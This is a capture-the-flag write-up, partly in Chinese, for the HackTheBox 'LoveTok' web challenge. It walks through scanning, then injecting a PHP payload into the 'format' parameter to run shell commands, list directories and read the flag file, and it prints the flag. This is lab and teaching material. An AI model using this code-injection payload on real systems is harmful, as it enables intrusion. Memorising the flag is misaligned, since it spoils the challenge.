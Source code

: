 ```yaml
---
title: 'HackTheBox: LoveTok'
disqus: hackmd
---
```


HackTheBox: LoveTok Writeup
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/198

### Initial Enumeration

●Start Machine: 
http://206.189.28.180:30492/
![](https://hackmd.io/_uploads/H17tqXtb6.png)

## Solution

### 1. Attempt

#### 1.1 nmap scan 
> nmap -sC -sV -T4 206.189.28.180

![](https://hackmd.io/_uploads/rkrNh7K-p.png)
> 這題非滲透，只開 port 30492

#### 1.2 dirsearch scan
> dirsearch -u http://206.189.28.180:30492/

![](https://hackmd.io/_uploads/ryFP6XKWT.png)
> /.DS_Store

●[.DS_Store用途](https://zh.wikipedia.org/zh-tw/.DS_Store)

#### 1.3 Browse
##### 1.3.1 Click on the button, url changes
![](https://hackmd.io/_uploads/S1glgNYW6.png)
> http://206.189.28.180:30492/?format=r
##### 1.3.2 Edit url
> http://206.189.28.180:30492/?format=chw

![](https://hackmd.io/_uploads/B1o8lNtZT.png)

**(Text Changed)**
> 2023-10-16T22:24:07+00:00101

### 2. Web shell
#### 2.1 system() function
●Web Shell: https://www.imperva.com/learn/application-security/web-shell/
●HackTricks: [PHP Code Execution ](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass#php-code-execution)

(restart machine, IP 有變更)
> http://142.93.32.153:30198/?format=${system($_GET[cmd])}&cmd=ls

![](https://hackmd.io/_uploads/Hy4H6Aoba.png)

#### 2.2 Check download file
##### 2.2.1 idex.php 位在LoveTok\web_lovetok\challenge
![](https://hackmd.io/_uploads/SyMKT0sZT.png)

##### 2.2.2 Find Flag location
\LoveTok\web_lovetok
![](https://hackmd.io/_uploads/rJHx0Co-p.png)

#### 2.3 Find Flag during Web shell
> TEST : http://142.93.32.153:30198/?format=${phpinfo()} 
> 
> http://142.93.32.153:30198/?format=${system($_GET[cmd])}&cmd=ls+../
(URL encode: 空白='+')

![](https://hackmd.io/_uploads/rJaR1y2ZT.png)

### 3. Find Flag 
> http://142.93.32.153:30198/?format=${system($_GET[cmd])}&cmd=cat+../flagNBD9R

![](https://hackmd.io/_uploads/Byy5xk2-a.png)
> **FLAG: HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}**


###### tags: `Web` `CTF` `Webshell` 
